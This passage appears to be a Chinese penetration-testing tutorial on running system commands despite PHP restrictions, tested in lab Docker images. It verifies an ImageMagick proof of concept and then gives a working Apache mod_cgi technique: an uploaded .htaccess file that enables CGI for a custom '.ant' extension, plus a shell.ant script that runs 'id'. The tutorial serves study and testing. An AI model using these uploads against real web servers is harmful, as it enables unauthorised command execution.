 
访问`phpinfo.php`,发现开启了imagemagick服务

![](https://gitee.com/fuli009/images/raw/master/public/20210820102327.png)

  

进入容器:`docker run -t -i medicean/vulapps:i_imagemagick_1 "/bin/bash"`

![](https://gitee.com/fuli009/images/raw/master/public/20210820102328.png)

查看`poc.php`,这其实是已经写好的poc,执行命令就是`ls -la`

![]()

  

验证poc,在容器外执行`docker exec i_imagemagick_1 convert /poc.png 1.png`

![](https://gitee.com/fuli009/images/raw/master/public/20210820102329.png)

## 利用 Apache Mod CGI

利用条件:

  * Apache + PHP (apache 使用 apache_mod_php)
  * Apache 开启了 cgi, rewrite
  * Web 目录给了 AllowOverride 权限

### 关于mod_cgi是什么

http://httpd.apache.org/docs/current/mod/mod_cgi.html任何具有MIME类型application/x-httpd-
cgi或者被cgi-
script处理器处理的文件都将被作为CGI脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的扩展名，另一种是文件位于ScriptAlias目录中。当Apache
开启了cgi,
rewrite时，我们可以利用.htaccess文件，临时允许一个目录可以执行cgi程序并且使得服务器将自定义的后缀解析为cgi程序，则可以在目的目录下使用.htaccess文件进行配置。

### 如何利用

由于环境搭建困难,使用蚁剑的docker

![](https://gitee.com/fuli009/images/raw/master/public/20210820102331.png)

  

在web目录下上传`.htaccess`文件

    
    
    Options +ExecCGI  
    AddHandler cgi-script .ant  
    

上传shell.ant

    
    
    #!/bin/sh  
    echo Content-type: text/html  
    echo ""  
    echo&&id  
    
